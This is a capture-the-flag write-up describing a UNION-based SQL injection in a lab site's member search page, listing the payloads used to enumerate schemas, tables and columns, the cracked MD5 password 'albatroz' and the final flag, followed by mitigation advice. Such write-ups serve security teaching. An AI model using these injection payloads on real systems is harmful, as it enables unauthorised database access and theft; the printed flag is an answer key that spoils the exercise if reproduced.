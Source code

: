# SQL Injection In Member Search Field 

## Issue

The input field at "http://{IP}:{PORT}/index.php?page=member" does not sanitize input data which is passed through to a database directly \
resulting in injection of query into SQL database.


## Attack Vector

1 - Navigating to "http://{IP}:{PORT}/index.php?page=member" and entering arbitrary payload eg `' or 1=1` into input field and selecting submit 
reveals SQL syntax error message confirming that data is being passed into query without sanitization

2 - Identify Schemas in database by inputting `4 UNION SELECT null,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -` into the search field and pressing enter \
We see interesting schema `Member_images` \
Note - as there are only 2 columns being returned/rendered by the server during a normal query then union select needs to only reference 2 columns during query!

3 - Identify the tables in `Member_images` schema with `4 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS -- -` which reveals table name `list_images`

4 - Identify all columns in List_images table in Member_images with  `4 UNION SELECT COLUMN_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS -- -`

5 - Column names `id, url, title, comment` are revealed

6 - Query each column in List_images table with `4 UNION SELECT {column_name},{column_name} FROM Member_images.list_images -- -`

7 - After querying all columns we see one particular interest entry in the List_images table as follows:
| **Column name** | id  | url                                   | title   | comment                                                                                         |
|-----------------|-----|---------------------------------------|---------|-------------------------------------------------------------------------------------------------|
| **Data**        | 5   | borntosec.ddns.net/images.png        | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |

8 - Open bash and navigate to script directory. Launch script with `python3 hashcracker.py` to attempt to crack md5 hash against the passwordlist.txt wordlist

9 - The decrypted hash is found to be `albatroz`

10 - We follow the instructions as per table contents and lowercase `albatroz` then apply a SHA256 algorithm to reveal the flag.

11 - Flag is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

*NOTE - You can use existing MD5 decryption tools such as MD5decrypt.net to attempt to crack the hash.*


## Mitigation

1 - Sanitize and validate input

2 - Use ORM framework to make queries to database

3 - Do not expose raw SQL error messages




